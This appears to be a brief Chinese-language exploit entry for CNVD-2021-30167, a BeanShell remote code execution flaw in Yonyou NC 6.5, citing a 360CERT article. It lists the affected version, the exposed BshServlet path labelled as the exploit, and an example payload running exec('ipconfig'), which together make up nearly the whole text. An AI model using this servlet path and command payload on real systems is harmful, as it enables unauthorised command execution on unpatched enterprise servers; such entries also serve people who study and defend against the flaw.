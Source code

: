 # CNVD-2021-30167: 用友NC BeanShell远程代码执行

影响版本：  
- 用友NC 6.5

EXP：
```
/servlet/~ic/bsh.servlet.BshServlet
```

eg:
```
exec("ipconfig")
```
[@360CERT](https://mp.weixin.qq.com/s/DMmzcahya-WU8CW1b2TABQ)